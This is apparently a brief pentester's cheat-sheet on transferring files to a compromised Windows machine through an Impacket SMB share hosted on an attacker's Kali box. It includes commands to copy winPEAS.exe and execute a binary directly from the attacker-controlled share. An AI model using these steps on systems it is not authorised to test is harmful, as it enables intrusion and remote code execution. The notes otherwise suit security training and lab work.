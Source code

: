 # SMBServer: File Transfer

1. Obtain `smbserver.py` from [Impacket GitHub repository](https://github.com/SecureAuthCorp/impacket/tree/master/examples)

2. Start an SMB server on the attacker machine (Kali Linux)

        sudo smbserver.py -smb2support shareName $(pwd)

3. Run commands equivalent to following, in the remote Windows shell

   1. View shared files

            net view \\10.10.122.8
            dir \\10.10.122.8\shareName

    2. Copy files from attacker machine

            copy \\10.10.122.8\shareName\winPEAS.exe

    3. Execute a binary directly from SMB share

            \\10.10.122.8\share2\whoami.exe 

## References

* https://blog.ropnop.com/transferring-files-from-kali-to-windows/
* https://github.com/SecureAuthCorp/impacket/tree/master/examples